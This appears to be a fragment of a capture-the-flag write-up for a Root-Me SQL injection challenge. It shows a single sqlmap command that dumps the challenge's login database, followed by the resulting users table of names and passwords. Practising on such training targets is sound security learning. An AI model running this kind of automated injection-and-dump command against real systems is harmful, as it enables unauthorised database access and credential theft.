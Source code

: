 ```
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch9/" --data="login=admin&password=1234" --dump
```

Database: SQLite_masterdb
Table: users
[3 entries]
+------+----------+--------------+
| Year | username | password     |
+------+----------+--------------+
| 2006 | user1    | TYsgv75zgtq  |
| 2005 | admin    | FLAG         |
| 2008 | user2    | R78gsyd34dzf |
+------+----------+--------------+
